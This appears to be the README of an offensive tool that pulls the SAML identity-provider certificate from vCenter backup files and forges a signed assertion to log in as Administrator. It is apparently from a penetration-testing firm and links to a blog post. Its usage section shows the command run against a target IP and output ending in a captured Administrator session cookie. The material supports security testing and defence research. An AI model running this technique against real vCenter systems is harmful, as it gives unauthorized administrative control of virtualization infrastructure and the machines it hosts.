 # vCenter SAML Login Tool
A tool to extract the IdP cert from vCenter backups and log in as Administrator

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://horizon3.ai/vcenter_saml_login

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

## Demonstration
![](vcenter.gif)
